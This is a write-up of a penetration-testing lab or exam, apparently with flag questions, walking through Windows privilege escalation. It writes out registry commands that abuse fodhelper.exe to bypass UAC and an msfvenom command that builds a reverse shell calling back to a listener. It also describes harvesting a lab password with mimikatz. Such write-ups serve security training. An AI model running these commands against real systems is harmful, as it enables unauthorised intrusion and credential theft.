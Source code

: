 We can open a netcat listener and receive the shell.

Once you have the shell, you are the exam/ted user. Interestingly enough, you can read the flag file already, but it is important for us to utilize priv esc so we can advance with the penetration test.&#x20;

#### Privilege Escalation

Remember fodhelper.exe? We can utilize that again to bypass UAC here. I can check this by uploading sigcheck64.exe to the box and looking at the permissions on the program.

Notably,

```
<requestedExecutionLevel
           level="requireAdministrator"
/>
```

And

```
<autoElevate>true</autoElevate>
```

We can use the registry keys fodhelper tries to access and add a shellcode generated by msfvenom again to spawn another reverse shell, this time with elevated privileges.

```
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "C:\Users\ted\Desktop\revshell.exe" /f
...
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.146 LPORT=1234 -f exe -o revshell.exe
```

Open the netcat listener and we are done.

Post-Completion notes:&#x20;

We can launch mimikatz and harvest ted's password, which is avatar123, and rdp into the machine at the 192.168.xxx.172 ip. Now we can move onto question 2.

### Question 2

We already did all the heavy lifting by dumping the passwords for ted, we can just RDP into the 171 IP and read the flag.

### Question 3

We can import the script PrivescCheck.ps1 from [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck) and run it to see that there is binary vulnerability, specifically regarding zen.exe.

```
| KO | High | SERVICES > Binary Permissions -> 8 result(s)                    |
| KO | Med. | UPDATES > System up to date? -> 1 result(s)                     |
```
